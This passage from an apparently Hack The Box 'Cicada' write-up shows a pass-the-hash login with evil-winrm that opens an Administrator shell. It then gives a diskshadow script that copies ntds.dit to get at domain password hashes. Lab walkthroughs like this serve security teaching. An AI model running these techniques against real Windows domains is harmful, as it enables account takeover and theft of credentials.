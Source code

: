 #### WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) can get a shell from the hash:

```

oxdf@hacky$ evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And the flag:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
b77facd8************************

```

## Beyond Root - Domain Hashes

### Background

Domain hashes are stored not in the registry, but in the `ndts.dit` file, stored in the `C:\Windows\NTDS` directory. Even with `SeBackupPrivilege`, it’s not possible to just copy it like another file. This isn’t a permissions issue, but rather because it is constantly in use by the active directory processes.

### Copy ntds.dit

There are several ways to get a copy of this file. One is using `diskshadow`, a backup utility, which is nice because I don’t have to upload any other tools to the target. I’ll need to pass it a script to run:

```

set verbose on
set metadata C:\Windows\Temp\0xdf.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup

```

The script will set the `metadata` location (not important, but it needs to exist). It’ll set the backup to be “client accessible” so that they are accessible by me. Then it starts the backup, backing up the `C:\` drive into a volume named `cdrive`, and then exposing that drive as `E:`.
